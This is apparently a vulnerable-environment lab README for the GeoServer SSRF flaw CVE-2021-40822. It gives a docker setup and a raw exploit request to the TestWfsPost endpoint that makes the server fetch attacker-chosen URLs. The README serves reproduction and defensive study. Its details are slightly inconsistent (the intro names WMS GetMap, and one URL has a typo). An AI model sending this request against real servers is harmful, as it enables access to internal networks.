

# GeoServer Unauthenticated SSRF Vulnerability (CVE-2021-40822)

[中文版本(Chinese version)](README.zh-cn.md)

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In GeoServer versions prior to 2.19.3, 2.18.5, and 2.17.6, there is a Server-Side Request Forgery (SSRF) vulnerability in the WMS GetMap request. An attacker can exploit this vulnerability to make requests to internal or external services through the GeoServer server.

References:

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-7g5f-wrx8-5ccf>
- <https://nvd.nist.gov/vuln/detail/CVE-2021-40822>

## Vulnerable Environment

Execute the following command to start a GeoServer 2.19.1 server:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

The vulnerability exists in the `TestWfsPost` endpoint. An attacker can use the `url` parameter to make the server send requests to arbitrary URLs. The endpoint accepts several parameters:

- `url`: The target URL that GeoServer will send request to
- `body`: The request body to be sent. If this parameter is empty, GeoServer will send a GET request; if it contains any value, GeoServer will send a POST request
- `username`: Username for basic authentication (optional)
- `password`: Password for basic authentication (optional)

Send the following request to the `TestWfsPost` endpoint:

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: internal
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

form_hf_0=&url=http://interal/geoserver/../&body=testtest&username=admin&password=admin
```

Use `google.com` as the target URL, and you will see that response from `google.com` is returned.



> Note: The host in the `url` parameter must match the `Host` header in your request, otherwise GeoServer will return an error. For example, if the domain in `url` parameter is `internal`, then the `Host` header should also be `internal`.
